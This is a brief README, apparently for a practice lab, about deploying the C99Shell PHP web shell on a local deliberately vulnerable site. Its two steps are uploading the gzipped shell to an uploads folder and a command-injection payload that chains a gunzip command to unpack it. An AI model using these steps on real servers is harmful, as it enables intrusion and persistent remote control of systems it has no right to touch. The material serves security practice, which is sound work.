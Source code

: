 C99Shell
========

c99 is a well-known and powerful shell.

You have to **upload** it, then use a **command execution attack** to make it
usable.

1. Upload the exploit (`.gz`), then look at: http://localhost:8090/hackable/uploads/
2. Command execution: `; /bin/gunzip -v ../../hackable/uploads/c99.php`

